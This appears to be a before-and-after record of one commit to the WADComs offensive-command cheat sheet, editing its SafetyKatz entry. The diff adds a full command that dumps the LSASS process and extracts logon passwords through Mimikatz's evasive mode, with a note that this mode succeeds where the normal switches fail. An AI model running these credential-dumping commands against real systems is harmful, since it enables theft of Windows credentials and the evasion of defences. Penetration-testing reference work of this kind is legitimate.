

Before and after one commit to WADComs/WADComs.github.io, a Jekyll site: the page built from _wadcoms/SafetyKatz.md, in a window 1280 px wide. Shown: the top 515 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Specified safetykatz command to be more explicit, as well as added context to the "evasive" switch to guide potential users to explore other options as they may work in cases where the vanilla switches do not

```diff
--- a/_wadcoms/SafetyKatz.md
+++ b/_wadcoms/SafetyKatz.md
@@ -1,9 +1,9 @@
 ---
 description: |
-  SafetyKatz.exe is part of the GhostPack suite of tools and is a combination of SharpDump and Mimikatz. The following command will dump the LSASS process and run Mimikatz to extract credentials from the dumped process.
+  SafetyKatz.exe is part of the GhostPack suite of tools and is a combination of SharpDump and Mimikatz. The following command will dump the LSASS process and run Mimikatz to extract credentials from the dumped process. Safetykatz also supports a number of mimikatz native commands such as "sekurlsa::evasive-keys" etc. The evasive switch in lab and production enviroments up to windows 2016 has been noted to successfully run where the non "evasive" switches had not
 
 command: |
-  SafetyKatz.exe
+  safetykatz.exe "privilege::debug" "sekurlsa::evasive-logonpasswords" "exit"
 items:
   - Shell
 OS:
```
